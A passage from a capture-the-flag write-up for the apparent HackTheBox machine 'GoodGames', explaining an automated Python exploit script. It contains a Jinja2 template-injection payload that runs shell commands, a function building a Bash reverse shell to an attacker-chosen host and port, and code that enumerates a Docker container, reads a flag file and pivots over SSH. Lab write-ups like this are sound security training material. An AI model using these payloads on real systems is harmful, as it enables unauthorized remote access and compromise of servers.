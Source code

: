 We are using a payload from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2):

```django
{{cycler.__init__.__globals__.os.popen('id').read()}}
```

But instead of `id` we use a reverse shell Bash command to gain access to the server. The reverse shell is encoded in Base64:

```python
def rev_shell(lhost: str, lport: int) -> bytes:
    rev_shell_payload = f'bash  -i >& /dev/tcp/{lhost}/{lport} 0>&1'
    log.info(f'Using reverse shell: {rev_shell_payload}')
    return rev_shell_payload.encode()
```

- Docker container enumeration:

We know that we arrive in a container. Here, we can enumerate a user in `/home` and the IP address (and also get the flag `user.txt`):

```python
def container_enum(sh) -> Tuple[str, str, str]:
    sh.sendlineafter(b'# ', b'ls /home')
    sh.recvline()
    user = sh.recvline().decode().strip()
    log.info(f'Found user: {user}')

    sh.sendlineafter(b'# ', b'hostname -i')
    sh.recvline()
    container_ip = sh.recvline().decode().strip()
    host_ip = '.'.join(container_ip.split('.')[:3] + ['1'])
    log.info(f'Connected to container at: {container_ip}')

    sh.sendlineafter(b'# ', f'cat /home/{user}/user.txt'.encode())
    sh.recvline()
    user_txt = sh.recvline().decode().strip()[-32:]

    return host_ip, user, user_txt
```

- SSH into the host machine:

We know from a previous enumeration that SSH is open at the host machine (which has an IP address ending in `.1`). The scanning process is shown in the [write-up](https://7rocky.github.io/en/htb/goodgames).

In order to access via SSH successfullym we need to greate a pseudo-TTY and export `TERM=xterm` (as usual when using a reverse shell):

```python
sh.sendlineafter(b'# ', f'rm /home/{user}/bash'.encode())
sh.sendlineafter(b'# ', f'script /dev/null -c bash'.encode())
sh.sendlineafter(b'# ', f'export TERM=xterm'.encode())

sh.sendlineafter(b'# ', f'ssh {user}@{host_ip}'.encode())
sh.sendlineafter(b'password: ', password.encode())
```
